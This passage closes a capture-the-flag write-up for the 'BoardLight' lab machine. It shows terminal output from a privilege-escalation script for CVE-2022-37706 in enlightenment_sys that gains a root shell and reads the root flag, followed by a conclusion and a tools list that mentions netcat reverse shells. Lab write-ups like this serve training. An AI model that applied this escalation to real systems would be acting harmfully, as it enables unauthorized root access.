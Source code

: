 *The exploit successfully grants us root access:*

```
larissa@boardlight:/tmp$ ./exploitPrivEsc.sh 
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can't find in /etc/fstab.

root@boardlight:/tmp# id 
uid=0(root) gid=0(root) groups=0(root),4(adm),1000(larissa)

root@boardlight:/tmp# cat /root/root.txt 
8f819211433863920a2b61bca6d9a153

---------------------------------------------------------------------------------
```

## Conclusion
*This write-up covered the process of exploiting the vulnerable Dolibarr application, gaining user access, and escalating privileges using a known vulnerability in the enlightenment_sys binary. Through proper enumeration and exploitation, we achieved root access and retrieved both user and root flags.*

> [!Tools Used]
>
>    **`ping`**: To verify connectivity to the target machine.
> 
>    **`nmap`**: To scan open ports and services.
> 
>   **`ffuf`**: For subdomain enumeration.
>
>   **`curl`**: To download scripts on the target machine.
>
>   **`netcat`**: To establish reverse shells.
>
>   **`LinPEAS`**: To search for privilege escalation vectors


